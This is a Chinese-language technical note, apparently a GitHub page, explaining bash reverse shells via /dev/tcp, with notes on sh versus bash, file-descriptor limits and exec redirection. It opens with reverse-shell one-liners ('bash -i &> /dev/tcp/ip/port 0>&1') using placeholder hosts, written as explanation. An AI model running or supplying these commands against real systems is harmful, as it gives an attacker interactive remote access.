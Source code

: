 ```/dev/tcp/ip/port```，这个文件不是存在的，但是当你在监听这个端口的时候，对这个文件进行读写，就可以实现两个主机之间的socket通信
	bash -i &> /dev/tcp/ip/port 0>&1

	bash -i &> /dev/tcp/ip/port 0>&2


**```bash -i```后的```&>```或```>&```表示混合输出，即标准输出1 + 错误输出2**

[bash 和 sh 的一点儿区别](https://blog.csdn.net/CSDN_FengXingwei/article/details/81635590)

sh 遵循POSIX规范：“当某行代码出错时，不继续往下解释”。bash 就算出错，也会继续向下执行。

简单说，sh是bash的一种特殊的模式，sh就是开启了POSIX标准的bash， /bin/sh 相当于 ```/bin/bash --posix```

在Linux系统上/bin/sh往往是指向/bin/bash的符号链接

```ln -s /bin/bash /bin/sh```

### 其他变形

一般最大打开文件数会是系统内存的10%（以KB来计算）（称之为系统级限制）。查看系统级别的最大打开文件数可以使用下面命令查看：

	#sysctl -a | grep fs.file-max
	fs.file-max = 3247530
	sysctl: reading key "net.ipv6.conf.all.stable_secret"
	sysctl: reading key "net.ipv6.conf.default.stable_secret"
	sysctl: reading key "net.ipv6.conf.docker0.stable_secret"
	sysctl: reading key "net.ipv6.conf.ens160.stable_secret"
	sysctl: reading key "net.ipv6.conf.ens192.stable_secret"
	sysctl: reading key "net.ipv6.conf.ens224.stable_secret"
	sysctl: reading key "net.ipv6.conf.lo.stable_secret"

内核为了不让某一个进程消耗掉所有的文件资源，其也会对单个进程最大打开文件数做默认值处理（称之为用户级限制），默认值一般是1024，```ulimit -n```查看系统默认的文件描述符个数。

例如：

	# ulimit -n
	655360

表示系统支持的文件描述符 0-655359

与系统总内存(KB)的1/10刚好可以对上。

	#free -h
	             total       
	Mem:            31G          

[Linux中的文件描述符与打开文件之间的关系](https://blog.csdn.net/weililansehudiefei/article/details/78113082)

page 1:

打开"File"并且将fd 655359分配给它：

	[j]<>filename
    # 为了读写"filename", 把文件"filename"打开, 并且将文件描述符"j"分配给它.
    # 如果文件"filename"不存在, 那么就创建它.

eg:

	exec 655359<> File           

![](images/14.jpg)

&- 关闭标准输出
```